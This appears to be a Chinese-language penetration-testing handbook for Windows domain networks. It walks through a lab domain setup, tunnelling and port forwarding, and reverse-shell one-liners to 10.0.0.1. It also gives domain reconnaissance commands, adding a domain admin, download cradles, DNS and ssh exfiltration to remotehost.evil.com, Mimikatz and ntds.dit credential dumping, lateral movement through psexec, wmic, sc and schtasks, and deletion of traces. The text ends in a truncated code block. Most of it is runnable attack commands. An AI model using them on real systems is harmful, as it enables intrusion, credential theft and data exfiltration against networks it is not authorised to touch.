Team:Syclover
Author:L3m0n
域环境搭建
准备：
DC: win2008
DM: win2003
DM: winxp
win2008(域控)
1、修改计算机名：

2、配置固定ip:
其中网关设置错误，应该为192.168.206.2，开始默认的网管

3、服务器管理器—角色：

4、配置域服务:
dos下面输入dcpromo

Ps：这里可能会因为本地administrator的密码规则不合要求，导致安装失败，改一个强密码
5、设置林根域：
林就是在多域情况下形成的森林,根表示基础,其他在此根部衍生
具体见：http://angerfire.blog.51cto.com/198455/144123/

6、域数据存放的地址

win2003、winxp和08配置差不多
注意点是：
1、配置网络
dns server应该为主域控ip地址

2、加入域控

域已经搭建完成，主域控会生成一个krbtgt账号
他是Windows活动目录中使用的客户/服务器认证协议，为通信双方提供双向身份认证

参考：
AD域环境的搭建 基于Server 2008 R2
http://www.it165.net/os/html/201306/5493.html
Acitve Directory 域环境的搭建
http://blog.sina.com.cn/s/blog_6ce0f2c901014okt.html
端口转发&&边界代理
此类工具很多，测试一两个经典的。
端口转发
1、windows
lcx
1 2 3 4 5
| 监听1234端口,转发数据到2333端口 本地:lcx.exe -listen 1234 2333 将目标的3389转发到本地的1234端口 远程:lcx.exe -slave ip 1234 127.0.0.1 3389
|
netsh
只支持tcp协议
1 2 3 4 5 6 7 8 9 10 11 12
| 添加转发规则 netsh interface portproxy set v4tov4 listenaddress=192.168.206.101 listenport=3333 connectaddress=192.168.206.100 connectport=3389 此工具适用于，有一台双网卡服务器，你可以通过它进行内网通信，比如这个，你连接192.168.206.101:3388端口是连接到100上面的3389 删除转发规则 netsh interface portproxy delete v4tov4 listenport=9090 查看现有规则 netsh interface portproxy show all xp需要安装ipv6 netsh interface ipv6 install
|

更加详细参考：http://aofengblog.blog.163.com/blog/static/631702120148573851740/
2、linux
portmap

1 2 3 4 5
| 监听1234端口,转发数据到2333端口 本地:./portmap -m 2 -p1 1234 -p2 2333 将目标的3389转发到本地的1234端口 ./portmap -m 1 -p1 3389 -h2 ip -p2 1234
|
iptables
1 2 3 4 5 6 7 8 9 10 11 12 13 14
| 1、编辑配置文件/etc/sysctl.conf的net.ipv4.ip_forward = 1 2、关闭服务 service iptables stop 3、配置规则 需要访问的内网地址：192.168.206.101 内网边界web服务器：192.168.206.129 iptables -t nat -A PREROUTING --dst 192.168.206.129 -p tcp --dport 3389 -j DNAT --to-destination 192.168.206.101:3389 iptables -t nat -A POSTROUTING --dst 192.168.206.101 -p tcp --dport 3389 -j SNAT --to-source 192.168.206.129 4、保存&&重启服务 service iptables save && service iptables start
|
socket代理
xsocks
1、windows

进行代理后，在windows下推荐使用Proxifier进行socket连接，规则自己定义

2、linux
进行代理后，推荐使用proxychains进行socket连接
kali下的配置文件：
/etc/proxychains.conf
添加一条：socks5 127.0.0.1 8888
然后在命令前加proxychains就进行了代理

神器推荐
http://rootkiter.com/EarthWorm/
跨平台+端口转发+socket代理结合体！darksn0w师傅的推荐。
ew_port_socket.zip
基于http的转发与socket代理(低权限下的渗透)
如果目标是在dmz里面，数据除了web其他出不来，便可以利用http进行
1、端口转发
tunna
1 2 3 4 5 6 7 8
| >端口转发(将远程3389转发到本地1234) >python proxy.py -u http://lemon.com/conn.jsp -l 1234 -r 3389 -v > >连接不能中断服务(比如ssh) >python proxy.py -u http://lemon.com/conn.jsp -l 1234 -r 22 -v -s > >转发192.168.0.2的3389到本地 >python proxy.py -u http://lemon.com/conn.jsp -l 1234 -a 192.168.0.2 -r 3389
|
具体参考：http://drops.wooyun.org/tools/650
2、socks代理
reGeorg
1
| python reGeorgSocksProxy.py -u http://192.168.206.101/tunnel.php -p 8081
|

ssh通道
http://staff.washington.edu/corey/fw/ssh-port-forwarding.html
1、端口转发
1 2 3 4 5 6 7 8 9 10 11
| 本地访问127.0.0.1:port1就是host:port2(用的更多) ssh -CfNg -L port1:127.0.0.1:port2 user@host #本地转发 访问host:port2就是访问127.0.0.1:port1 ssh -CfNg -R port2:127.0.0.1:port1 user@host #远程转发 可以将dmz_host的hostport端口通过remote_ip转发到本地的port端口 ssh -qTfnN -L port:dmz_host:hostport -l user remote_ip #正向隧道，监听本地port 可以将dmz_host的hostport端口转发到remote_ip的port端口 ssh -qTfnN -R port:dmz_host:hostport -l user remote_ip #反向隧道，用于内网穿透防火墙限制之类
|
2、socks
1 2
| socket代理: ssh -qTfnN -D port remotehost
|

参考redrain大牛的文章：http://drops.wooyun.org/tips/5234
获取shell
常规shell反弹
几个常用：
1 2 3 4 5
| 1、bash -i >& /dev/tcp/10.0.0.1/8080 0>&1 2、python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' 3、rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
|
各种语言一句话反弹shell：
http://wiki.wooyun.org/pentest:各种语言一句话反弹shell
突破防火墙的imcp_shell反弹
有时候防火墙可能对tcp进行来处理，然而对imcp并没有做限制的时候，就可以来一波~
kali运行(其中的ip地址填写为目标地址win03)：

win03运行：
1
| icmpsh.exe -t kali_ip -d 500 -b 30 -s 128
|
可以看到icmp进行通信的

Shell反弹不出的时候
主要针对：本机kali不是外网或者目标在dmz里面反弹不出shell，可以通过这种直连shell然后再通过http的端口转发到本地的metasploit
1 2 3 4 5 6 7 8 9 10 11
| 1、msfvenom -p windows/x64/shell/bind_tcp LPORT=12345 -f exe -o ./shell.exe 先生成一个bind_shell 2、本地利用tunna工具进行端口转发 python proxy.py -u http://lemon.com/conn.jsp -l 1111 -r 12345 v 3、 use exploit/multi/handler set payload windows/x64/shell/bind_tcp set LPORT 1111 set RHOST 127.0.0.1
|

参考的文章：
https://www.91ri.org/11722.html
正向shell
1 2 3
| 1、nc -e /bin/sh -lp 1234 2、nc.exe -e cmd.exe -lp 1234
|
信息收集(结构分析)
基本命令
1、获取当前组的计算机名(一般remark有Dc可能是域控)：
1 2 3 4 5 6 7 8
| C:\Documents and Settings\Administrator\Desktop>net view Server Name Remark ----------------------------------------------------------------------------- \\DC1 \\DM-WINXP \\DM_WIN03 The command completed successfully.
|
2、查看所有域
1 2 3 4 5 6
| C:\Documents and Settings\Administrator\Desktop>net view /domain Domain ----------------------------------------------------------------------------- CENTOSO The command completed successfully.
|
3、从计算机名获取ipv4地址
1 2 3 4 5 6 7 8 9 10
| C:\Documents and Settings\Administrator\Desktop>ping -n 1 DC1 -4 Pinging DC1.centoso.com [192.168.206.100] with 32 bytes of data: Reply from 192.168.206.100: bytes=32 time<1ms TTL=128 Ping statistics for 192.168.206.100: Packets: Sent = 1, Received = 1, Lost = 0 (0% loss), Approximate round trip times in milli-seconds: Minimum = 0ms, Maximum = 0ms, Average = 0ms
|
Ps:如果计算机名很多的时候，可以利用bat批量ping获取ip
1 2 3 4 5 6 7
| @echo off setlocal ENABLEDELAYEDEXPANSION @FOR /F "usebackq eol=- skip=1 delims=\" %%j IN (`net view ^| find "命令成功完成" /v ^|find "The command completed successfully." /v`) DO ( @FOR /F "usebackq delims=" %%i IN (`@ping -n 1 -4 %%j ^| findstr "Pinging"`) DO ( @FOR /F "usebackq tokens=2 delims=[]" %%k IN (`echo %%i`) DO (echo %%k %%j) ) )
|

以下执行命令时候会发送到域控查询,如果渗透的机器不是域用户权限,则会报错
1 2 3
| The request will be processed at a domain controller for domain System error 1326 has occurred. Logon failure: unknown user name or bad password.
|
4、查看域中的用户名
1 2 3 4 5 6 7 8 9 10
| dsquery user 或者： C:\Users\lemon\Desktop>net user /domain User accounts for \\DC1 ------------------------------------------------------------------------------- Administrator Guest krbtgt lemon pentest The command completed successfully.
|
5、查询域组名称
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17
| C:\Users\lemon\Desktop>net group /domain Group Accounts for \\DC1 ---------------------------------------------- *DnsUpdateProxy *Domain Admins *Domain Computers *Domain Controllers *Domain Guests *Domain Users *Enterprise Admins *Enterprise Read-only Domain Controllers *Group Policy Creator Owners *Read-only Domain Controllers *Schema Admins The command completed successfully.
|
6、查询域管理员
1 2 3 4 5 6 7 8
| C:\Users\lemon\Desktop>net group "Domain Admins" /domain Group name Domain Admins Comment Designated administrators of the domain Members ----------------------------------------------------------- Administrator
|
7、添加域管理员账号
1 2 3 4
| 添加普通域用户 net user lemon iam@L3m0n /add /domain 将普通域用户提升为域管理员 net group "Domain Admins" lemon /add /domain
|
8、查看当前计算机名，全名，用户名，系统版本，工作站域，登陆域
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18
| C:\Documents and Settings\Administrator\Desktop>net config Workstation Computer name \\DM_WIN03 Full Computer name DM_win03.centoso.com User name Administrator Workstation active on NetbiosSmb (000000000000) NetBT_Tcpip_{6B2553C1-C741-4EE3-AFBF-CE3BA1C9DDF7} (000C2985F6E4) Software version Microsoft Windows Server 2003 Workstation domain CENTOSO Workstation Domain DNS Name centoso.com Logon domain DM_WIN03 COM Open Timeout (sec) 0 COM Send Count (byte) 16 COM Send Timeout (msec) 250
|
9、查看域控制器(多域控制器的时候,而且只能用在域控制器上)
1
| net group "Domain controllers"
|
10、查询所有计算机名称
1 2 3
| dsquery computer 下面这条查询的时候,域控不会列出 net group "Domain Computers" /domain
|
11、net命令
1 2 3 4 5 6 7 8
| >1、映射磁盘到本地 net use z: \\dc01\sysvol >2、查看共享 net view \\192.168.0.1 >3、开启一个共享名为app$，在d:\config >net share app$=d:\config
|
12、跟踪路由
定位域控
1、查看域时间及域服务器的名字
1 2
| C:\Users\lemon\Desktop>net time /domain Current time at \\DC1.centoso.com is 3/21/2016 12:37:15 AM
|
2、
1 2 3 4 5 6 7 8 9
| C:\Documents and Settings\Administrator\Desktop>Nslookup -type=SRV _ldap._tcp. *** Can't find server address for '_ldap._tcp.': DNS request timed out. timeout was 2 seconds. *** Can't find server name for address 192.168.206.100: Timed out Server: UnKnown Address: 192.168.206.100 *** UnKnown can't find -type=SRV: Non-existent domain
|
3、通过ipconfig配置查找dns地址
4、查询域控
1
| net group "Domain Controllers" /domain
|
端口收集
端口方面的攻防需要花费的时间太多，引用一篇非常赞的端口总结文章
| 端口号 |
端口说明 |
攻击技巧 |
| 21/22/69 |
ftp/tftp：文件传输协议 |
爆破\嗅探\溢出\后门 |
| 22 |
ssh：远程连接 |
爆破OpenSSH；28个退格 |
| 23 |
telnet：远程连接 |
爆破\嗅探 |
| 25 |
smtp：邮件服务 |
邮件伪造 |
| 53 |
DNS：域名系统 |
DNS区域传输\DNS劫持\DNS缓存投毒\DNS欺骗\利用DNS隧道技术刺透防火墙 |
| 67/68 |
dhcp |
劫持\欺骗 |
| 110 |
pop3 |
爆破 |
| 139 |
samba |
爆破\未授权访问\远程代码执行 |
| 143 |
imap |
爆破 |
| 161 |
snmp |
爆破 |
| 389 |
ldap |
注入攻击\未授权访问 |
| 512/513/514 |
linux r |
直接使用rlogin |
| 873 |
rsync |
未授权访问 |
| 1080 |
socket |
爆破：进行内网渗透 |
| 1352 |
lotus |
爆破：弱口令\信息泄漏：源代码 |
| 1433 |
mssql |
爆破：使用系统用户登录\注入攻击 |
| 1521 |
oracle |
爆破：TNS\注入攻击 |
| 2049 |
nfs |
配置不当 |
| 2181 |
zookeeper |
未授权访问 |
| 3306 |
mysql |
爆破\拒绝服务\注入 |
| 3389 |
rdp |
爆破\Shift后门 |
| 4848 |
glassfish |
爆破：控制台弱口令\认证绕过 |
| 5000 |
sybase/DB2 |
爆破\注入 |
| 5432 |
postgresql |
缓冲区溢出\注入攻击\爆破：弱口令 |
| 5632 |
pcanywhere |
拒绝服务\代码执行 |
| 5900 |
vnc |
爆破：弱口令\认证绕过 |
| 6379 |
redis |
未授权访问\爆破：弱口令 |
| 7001 |
weblogic |
Java反序列化\控制台弱口令\控制台部署webshell |
| 80/443/8080 |
web |
常见web攻击\控制台爆破\对应服务器版本漏洞 |
| 8069 |
zabbix |
远程命令执行 |
| 9090 |
websphere控制台 |
爆破：控制台弱口令\Java反序列 |
| 9200/9300 |
elasticsearch |
远程代码执行 |
| 11211 |
memcacache |
未授权访问 |
| 27017 |
mongodb |
爆破\未授权访问 |
引用：https://www.91ri.org/15441.html
wooyun也有讨论：http://zone.wooyun.org/content/18959
对于端口也就是一个服务的利用，上文也只是大概的讲述，一些常见的详细利用与防御可以看看：
http://wiki.wooyun.org/enterprise:server
扫描分析
1、nbtscan
获取mac地址：
获取计算机名\分析dc\是否开放共享

其中信息：
SHARING 表示开放来共享，
DC 表示可能是域控，或者是辅助域控
U=user 猜测此计算机登陆名
IIS 表示运行来web80
EXCHANGE Microsoft Exchange服务
NOTES Lotus Notes服务
2、WinScanX
需要登录账号能够获取目标很详细的内容。其中还有snmp获取,windows密码猜解(但是容易被杀,nishang中也实现出一个类似的信息获取/Gather/Get-Information.ps1)
1
| WinScanX.exe -3 DC1 centoso\pentest password -a > test.txt
|

3、端口扫描
InsightScan
proxy_socket后，直接
1
| proxychains python scanner.py 192.168.0.0/24 -N
|
http://insight-labs.org/?p=981
内网文件传输
windows下文件传输
1、powershell文件下载
powershell突破限制执行：powershell -ExecutionPolicy Bypass -File .\1.ps1
1 2
| $d = New-Object System.Net.WebClient $d.DownloadFile("http://lemon.com/file.zip","c:/1.zip")
|
2、vbs脚本文件下载
1 2 3 4 5 6 7 8 9
| Set xPost=createObject("Microsoft.XMLHTTP") xPost.Open "GET","http://192.168.206.101/file.zip",0 xPost.Send() set sGet=createObject("ADODB.Stream") sGet.Mode=3 sGet.Type=1 sGet.Open() sGet.Write xPost.ResponseBody sGet.SaveToFile "c:\file.zip",2
|
下载执行：
3、bitsadmin
win03测试没有,win08有
1
| bitsadmin /transfer n http://lemon.com/file.zip c:\1.zip
|
4、文件共享
映射了一个，结果没有权限写
1
| net use x: \\127.0.0.1\share /user:centoso.com\userID myPassword
|
5、使用telnet接收数据
1 2
| 服务端：nc -lvp 23 < nc.exe 下载端：telnet ip -f c:\nc.exe
|
6、hta
保存为.hta文件后运行
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23
| <html> <head> <script> var Object = new ActiveXObject("MSXML2.XMLHTTP"); Object.open("GET","http://192.168.206.101/demo.php.zip",false); Object.send(); if (Object.Status == 200) { var Stream = new ActiveXObject("ADODB.Stream"); Stream.Open(); Stream.Type = 1; Stream.Write(Object.ResponseBody); Stream.SaveToFile("C:\\demo.zip", 2); Stream.Close(); } window.close(); </script> <HTA:APPLICATION ID="test" WINDOWSTATE = "minimize"> </head> <body> </body> </html>
|
linux下文件传输
1、perl脚本文件下载
kali下测试成功，centos5.5下，由于没有LWP::Simple这个，导致下载失败
1 2 3
| use LWP::Simple getstore("http://lemon.com/file.zip", "/root/1.zip");
|
2、python文件下载
1 2 3 4 5 6
| import urllib2 u = urllib2.urlopen('http://lemon.com/file.zip') localFile = open('/root/1.zip', 'w') localFile.write(u.read()) localFile.close()
|
3、ruby文件下载
centos5.5没有ruby环境
1 2 3 4 5 6 7 8
| require 'net/http' Net::HTTP.start("www.lemon.com") { |http| r = http.get("/file.zip") open("/root/1.zip", "wb") { |file| file.write(r.body) } }
|
4、wget文件下载
1 2
| wget http://lemon.com/file.zip -P /root/1.zip 其中-P是保存到指定目录
|
5、一边tar一边ssh上传
1
| tar zcf - /some/localfolder | ssh remotehost.evil.com "cd /some/path/name;tar zxpf -"
|
6、利用dns传输数据
1
| tar zcf - localfolder | xxd -p -c 16 | while read line; do host $line.domain.com remotehost.evil.com; done
|
但是有时候会因为没找到而导致数据重复,对数据分析有点影响

其他传输方式
1、php脚本文件下载
1 2 3 4 5 6 7
| <?php $data = @file("http://example.com/file"); $lf = "local_file"; $fh = fopen($lf, 'w'); fwrite($fh, $data[0]); fclose($fh); ?>
|
2、ftp文件下载
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24
| >**windows下** >ftp下载是需要交互，但是也可以这样去执行下载 open host username password bin lcd c:/ get file bye >将这个内容保存为1.txt， ftp -s:"c:\1.txt" >在mssql命令执行里面(不知道为什么单行执行一个echo,总是显示两行),个人一般喜欢这样 echo open host >> c:\hh.txt & echo username >> c:\hh.txt & echo password >>c:\hh.txt & echo bin >>c:\hh.txt & echo lcd c:\>>c:\hh.txt & echo get nc.exe >>c:\hh.txt & echo bye >>c:\hh.txt & ftp -s:"c:\hh.txt" & del c:\hh.txt >**linux下** >bash文件 ftp 127.0.0.1 username password get file exit >或者使用busybox里面的tftp或者ftp >busybox ftpget -u test -P test 127.0.0.1 file.zip
|
3、nc文件传输
1 2
| 服务端:cat file | nc -l 1234 下载端:nc host_ip 1234 > file
|
4、使用SMB传送文件
本地linux的smb环境配置
1 2 3 4 5 6 7 8 9 10
| >vi /etc/samba/smb.conf [test] comment = File Server Share path = /tmp/ browseable = yes writable = yes guest ok = yes read only = no create mask = 0755 >service samba start
|
下载端
1 2
| net use o: \\192.168.206.129\test dir o:
|

文件编译
1、powershell将exe转为txt，再txt转为exe
nishang中的小脚本，测试一下将nc.exe转化为nc.txt再转化为nc1.exe
ExetoText.ps1
1 2
| [byte[]] $hexdump = get-content -encoding byte -path "nc.exe" [System.IO.File]::WriteAllLines("nc.txt", ([string]$hexdump))
|
TexttoExe.ps1
1 2 3
| [String]$hexdump = get-content -path "nc.txt" [Byte[]] $temp = $hexdump -split ' ' [System.IO.File]::WriteAllBytes("nc1.exe", $temp)
|

2、csc.exe编译源码
csc.exe在C:\Windows\Microsoft.NET\Framework\的各种版本之下
1
| csc.exe /out:C:\evil\evil.exe C:\evil\evil.cs
|

3、debug程序
hex功能能将hex文件转换为exe文件(win08_x64没有这个,win03_x32有,听说是x32才有这个)

思路：
- 把需要上传的exe转换成十六进制hex的形式
- 通过echo命令将hex代码写入文件(echo也是有长度限制的)
- 使用debug功能将hex代码还原出exe文件

将ncc.txt的内容一条一条的在cmd下面执行，最后可以获取到123.hex、1.dll、nc.exe
exe2bat不支持大于64kb的文件
hash抓取
hash简介
windows hash:
| | 2000 | xp| 2003 | Vista | win7 | 2008 | 2012 |
|--------|
| LM | √ | √ | √ |
| NTLM | √ | √ | √ | √ | √ | √ | √|
前面三个,当密码超过14位时候会采用NTLM加密
test:1003:E52CAC67419A9A22664345140A852F61:67A54E1C9058FCA16498061B96863248:::
前一部分是LM Hash，后一部分是NTLM Hash
当LM Hash是AAD3B435B51404EEAAD3B435B51404EE
这表示空密码或者是未使用LM_HASH
Hash一般存储在两个地方：
SAM文件，存储在本机 对应本地用户
NTDS.DIT文件，存储在域控上 对应域用户
本机hash+明文抓取
1、Get-PassHashes.ps1

2、导注册表+本地分析
Win2000和XP需要先提到SYSTEM，03开始直接可以reg save
导出的文件大,效率低,但是安全(测试的时候和QuarkPwDump抓取的hash不一致)
1 2 3
| reg save hklm\sam sam.hive reg save hklm\system system.hive reg save hklm\security security.hive
|

3、QuarkPwDump
1
| QuarkPwDump.exe -dhl -o "c:\1.txt"
|

4、getpass本地账户明文抓取
闪电小子根据mimikatz写的一个内存获取明文密码

http://bbs.pediy.com/showthread.php?t=156643
win8+win2012明文抓取
修改一个注册表就可以抓取了
1
| reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1
|
测试失败
工具：https://github.com/samratashok/nishang/blob/master/Gather/Invoke-MimikatzWDigestDowngrade.ps1
文章地址：https://www.trustedsec.com/april-2015/dumping-wdigest-creds-with-meterpreter-mimikatzkiwi-in-windows-8-1/
域用户hash抓取
mimikatz
只能抓取登陆过的用户hash，无法抓取所有用户,需要免杀
1、本机测试直接获取内存中的明文密码
1 2
| privilege::debug sekurlsa::logonpasswords
|

2、非交互式抓明文密码(webshell中)
1
| mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" > pssword.txt
|
3、powershell加载mimikatz抓取密码
1
| powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz
|
4、ProcDump + Mimikatz本地分析
文件会比较大，低效，但是安全(绕过杀软)
ps:mimikatz的平台（platform）要与进行dump的系统(source dump)兼容(比如dowm了08的,本地就要用08系统来分析)
1 2 3 4 5
| 远程： Procdump.exe -accepteula -ma lsass.exe lsass.dmp 本地： sekurlsa::minidump lsass.dump.dmp sekurlsa::logonpasswords full
|

ntds.dit的导出+QuarkPwDump读取分析
无法抓取所有用户,需要免杀
这个方法分为两步：
第一步是利用工具导出ntds.dit
第二步是利用QuarkPwDump去分析hash
1、ntds.dit的导出
- ntdsutil win2008开始DC中自带的工具
a.交互式
1 2 3 4 5
| >snapshot >activate instance ntds >create >mount xxx >
|

做完后unmount然后需要再delet一下

b.非交互
1 2 3 4 5
| >ntdsutil snapshot "activate instance ntds" create quit quit >ntdsutil snapshot "mount {GUID}" quit quit >copy MOUNT_POINT\windows\ntds\ntds.dit c:\temp\ntds.dit >ntdsutil snapshot "unmount {GUID}" "delete {GUID}" quit quit >
|

- vshadow 微软的卷影拷贝工具
1 2
| >vshadow.exe -exec=%ComSpec% C: >
|
其中%ComSpec%是cmd的绝对路径,它在建立卷影后会启动一个程序,只有这个程序才能卷影进行操作,其他不能,比如这里就是用cmd.exe来的
最后exit一下

2、QuarkPwDump分析
https://github.com/quarkslab/quarkspwdump
- 在线提取
1
| QuarkPwDump.exe --dump-hash-domain --with-history --ntds-file c:\ntds.dit
|
- 离线提取
需要两个文件 ntds.dit 和 system.hiv
其中system.hiv可通过reg save hklm\system system.hiv获取
1
| QuarkPwDump.exe --dump-hash-domain --with-history --ntds-file c:\ntds.dit --system-file c:\system.hiv
|

3、实战中hash导出流程
1.建立ipc$连接
net use \\DC1\c$ password /user:username
2.复制文件到DC
copy .\* \\DC1\windows\tasks
3.sc建立远程服务启动程序
sc \\DC1 create backupntds binPath= "cmd /c start c:\windows\tasks\shadowcopy.bat" type= share start= auto error= ignore DisplayName= BackupNTDS
4.启动服务
sc \\DC1 start backupntds
5.删除服务
sc \\DC1 delete backupntds
6.讲hash转移到本地
move \\DC1\c$\windows\tasks\hash.txt .
7.删除记录文件
del \\DC1\c$\windows\tasks\ntds.dit \\DC1\c$\windows\tasks\QuarksPwDump.exe \\DC1\c$\windows\tasks\shadowcopy.bat \\DC1\c$\windows\tasks\vshadow.exe

注意的两点是：
a.WORK_PATH和你拷贝的地方要相同

b.附件中的QuarkPwDump在win08上面运行报错,另外修改版可以,所以实战前还是要测试一下
vssown.vbs + libesedb + NtdsXtract
上面的QuarkPwDump是在win上面分析ntds.dit,这个是linux上面的离线分析
优点是能获取全部的用户,不用免杀,但是数据特别大,效率低,另外用vssown.vbs复制出来的ntds.dit数据库无法使用QuarksPwDump.exe读取
hash导出：
https://raw.githubusercontent.com/borigue/ptscripts/master/windows/vssown.vbs
最后需要copy出system和ntds.dit两个文件
1 2
| c:\windows\system32\config\system c:\windows\ntds\ntds.dit
|


记得一定要delete快照！！！
1
| cscript vssown.vbs /delete *
|
本地环境搭建+分析：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17
| libesedb的搭建: wget https://github.com/libyal/libesedb/releases/download/20151213/libesedb-experimental-20151213.tar.gz tar zxvf libesedb-experimental-20151213.tar.gz cd libesedb-20151213/ ./configure make cd esedbtools/ (需要把刚刚vbs脱下来的ntds.dit放到kali) ./esedbexport ./ntds.dit mv ntds.dit.export/ ../../ ntdsxtract工具的安装: wget http://www.ntdsxtract.com/downloads/ntdsxtract/ntdsxtract_v1_0.zip unzip ntdsxtract_v1_0.zip cd NTDSXtract 1.0/ (需要把刚刚vbs脱下来的SYSTEM放到/root/SYSTEM) python dsusers.py ../ntds.dit.export/datatable.3 ../ntds.dit.export/link_table.5 --passwordhashes '/root/SYSTEM'
|

ntdsdump
laterain的推荐：http://z-cg.com/post/ntds_dit_pwd_dumper.html
是zcgonvh大牛根据quarkspwdump修改的，=。=，没找到和QuarkPwDump那个修改版的区别
获取ntds.dit和system.hiv之后(不用利用那个vbs导出,好像并不能分析出来)

利用powershell(DSInternals)分析hash
查看powershell版本：
1 2 3 4
| $PSVersionTable.PSVersion 看第一个Major 或者 Get-Host | Select-Object Version
|
Windows Server 2008 R2默认环境下PowerShell版本2.0，应该升级到3.0版本以上,需要.NET Framework 4.0
需要文件：
1 2
| ntds.dit(vshadow获取) system(reg获取)
|
执行命令：
1 2 3 4 5 6 7 8 9 10 11
| 允许执行脚本： Set-ExecutionPolicy Unrestricted 导入模块(测试是win2012_powershell ver4.0)： Import-Module .\DSInternals (powershell ver5.0) Install-Module DSInternals 分析hash,并导出到当前目录的hash.txt文件中 1、$key = Get-BootKey -SystemHivePath 'C:\Users\administrator\Desktop\SYSTEM' 2、Get-ADDBAccount -All -DBPath 'C:\Users\administrator\Desktop\ntds.dit' -BootKey $key | Out-File hash.txt
|

这个只是离线分析了ntds.dit文件,其实也可以在线操作,=。=,不过感觉实战中遇到的会比较少,毕竟现在主流是win08为域控(以后这个倒不失为一个好方法)
更多详情参考三好学生大牛的文章：http://drops.wooyun.org/tips/10181
远程连接&&执行程序
at&schtasks
需要开启Task Scheduler服务
经典流程：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15
| 1、进行一个连接 net use \\10.10.24.44\ipc$ 密码 /user:账号 2、复制本地文件到10.10.24.44的share共享目录(一般是放入admin$这个共享地方(也就是c:\winnt\system32\)，或者c$，d$) copy 4.bat \\10.10.24.44\share 3、查看10.10.24.44服务器的时间 net time \\10.10.24.44 4、添加at任务执行 at \\10.10.24.44 6:21 \\10.10.24.44\share\4.bat 这个6:21指的是上午的时间，如果想添加下午的，则是6.21PM 5、查看添加的所有at任务列表(如果执行了得，就不会显示) at \\10.10.24.44
|
其他命令：
1 2 3 4 5 6 7 8 9 10
| 查看所有连接 net use 删除连接 net use \\10.10.24.44\share /del 映射共享磁盘到本地 net use z: \\IP\c$ "密码" /user:"用户名" 删除共享映射 net use c: /del net use * /del
|
at过去后如果找不到网络路径,则判断是目标主机已禁用Task Scheduler服务
psexec
第一次运行会弹框,输入–accepteula这个参数就可以绕过
1
| psexec.exe \\ip –accepteula -u username -p password program.exe
|

另外两个比较重要的参数
1 2 3 4
| -c <[路径]文件名>:拷贝文件到远程机器并运行（注意：运行结束后文件会自动删除） -d 不等待程序执行完就返回 比如想上传一个本地的getpass到你远程连接的服务器上去: Psexec.exe \\ip –u user –p pass –c c:\getpass.exe –d
|
另外学习一波pstools的一些运用：
http://blog.csdn.net/sysprogram/article/details/13001781
如果出现找不到网络名，判断目标主机已禁用ADMIN$共享
wmic
net use后：
1 2 3
| copy 1.bat \\host\c$\windows\temp\1.bat wmic /node:ip /user:test /password:testtest process call create c:\windows\temp\1.bat
|

ps:
如果出现User credentials cannot be used for local connections,应该是调用了calc.exe权限不够的问题
如果出现Description = 无法启动服务，原因可能是已被禁用或与其相关联的设备没有启动，判断WMI服务被禁用
wmiexec.vbs
1 2 3 4 5 6 7 8
| 1、半交互模式 cscript.exe //nologo wmiexec.vbs /shell ip username password 2、单命令执行 cscript.exe wmiexec.vbs /cmd ip username password "command" 3、wce_hash注入 如果抓取的LM hash是AAD3开头的，或者是No Password之类的，就用32个0代替LM hash wce -s hash cscript.exe //nologo wmiexec.vbs /shell ip
|

wmi只是创建进程,没办法去判断一个进程是否执行完成(比如ping),这样就导致wmi.dll删除不成,下一次又是被占用,这时候修改一下vbs里面的名字就好：Const FileName = "wmi1.dll",也可以加入-persist参数(后台运行)
另外有一个uac问题
非域用户登陆到win08和2012中,只有administrator可以登陆成功,其他管理员账号会出现WMIEXEC ERROR: Access is denied
需要在win08或者2012上面执行,然后才可以连接:
1
| cmd /c reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\system /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
|

想更详细了解的可以看看：https://www.91ri.org/12908.html
smbexec
这个可以根据其他共享(c$、ipc$)来获取一个cmd
1 2
| 先把execserver.exe复制到目标的windows目录下,然后本机执行 test.exe ip user pass command sharename
|
powershell remoting
感觉实质上还是操作wmi实现的一个执行程序
https://github.com/samratashok/nishang/blob/5da8e915fcd56fc76fc16110083948e106486af0/Shells/Invoke-PowerShellWmi.ps1
SC创建服务执行
一定要注意的是binpath这些设置的后面是有一个空格的
1 2 3 4 5 6 7 8
| 1、系统权限(其中test为服务名) sc \\DC1 create test binpath= c:\cmd.exe sc \\DC1 start test sc \\DC1 delete test 2.指定用户权限启动 sc \\DC1 create test binpath = "c:\1.exe" obj= "centoso\administrator" passwrod= test sc \\DC1 start test
|
schtasks
schtasks计划任务远程运行
1 2 3 4 5 6 7
| 命令原型： schtasks /create /tn TaskName /tr TaskRun /sc schedule [/mo modifier] [/d day] [/m month[,month...] [/i IdleTime] [/st StartTime] [/sd StartDate] [/ed EndDate] [/s computer [/u [domain\]user /p password]] [/ru {[Domain\]User | "System"} [/rp Password]] /? For example: schtasks /create /tn foobar /tr c:\windows\temp\foobar.exe /sc once /st 00:00 /S host /RU System schtasks /run /tn foobar /S host schtasks /F /delete /tn foobar /S host
|
验证失败：win03连到08,xp连到08,xp连到03(但是并没有真正的成功执行,不知道是不是有姿势错了)
更多用法：http://www.feiesoft.com/windows/cmd/schtasks.htm
SMB+MOF || DLL Hijacks
其实这个思路一般都有用到的,比如在mof提权(上传mof文件到c:/windows/system32/wbem/mof/mof.mof)中,lpk_dll劫持
不过测试添加账号成功…执行文件缺失败了
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23
